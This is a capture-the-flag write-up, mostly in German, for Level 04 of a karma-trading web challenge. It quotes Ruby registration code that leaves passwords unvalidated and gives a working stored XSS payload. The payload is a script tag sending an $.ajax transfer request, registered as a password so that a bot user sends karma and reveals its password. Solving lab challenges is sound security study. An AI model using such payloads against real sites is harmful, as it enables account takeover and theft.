 LEVEL 04
========

params[:password] not escaped and checked
XSS vulnerability, user karma_fountain logs in every minute... use to
send yourself karma to see his password

    <script type='text/javascript'>$.ajax({ url: document.location +
    'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>.

---

Interessant, dass sich der User karma_fountain jede Minute einloggt, oder? Außerdem ist es wohl ein lustiges Verhalten, dass das eigene Passwort dem Karma-Empfänger angezeigt wird...

    post '/register' do
          username = params[:username]
          password = params[:password]
          unless username && password
            die("Please specify both a username and a password.", :register)
          end

          unless username =~ /^\w+$/
            die("Invalid username. Usernames must match /^\w+$/", :register)
          end

          unless DB.conn[:users].where(:username => username).count == 0
            die("This username is already registered. Try another one.",
                :register)
          end

          DB.conn[:users].insert(
            :username => username,
            :password => password,
            :karma => STARTING_KARMA,
            :last_active => Time.now.utc
            )
          session[:user] = username
          redirect '/'
        end

Die interesse Stelle oben lässt erkennen, dass hier der Username durch eine Regular Expression validiert wird, dass Passwort jedoch nicht! Oh. Und das Passwort wird ja jedem Empfänger angezeigt?! Spricht für eine wunderbare Cross Site Scripting Vulnerability. 

    <script type='text/javascript'>$.ajax({ url: document.location +
    'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>
    
Packen wir also das kurze, oben stehende Script bei der Registrierung als Passwort in unseren Account und überweisen der karma_fountain danach etwas Karma, so wird beim nächsten Aufruf durch die karma_fountain eben jenes Script ausgeführt. Das Teil sendet also dem User a Karma - und natürlich das Passwort! 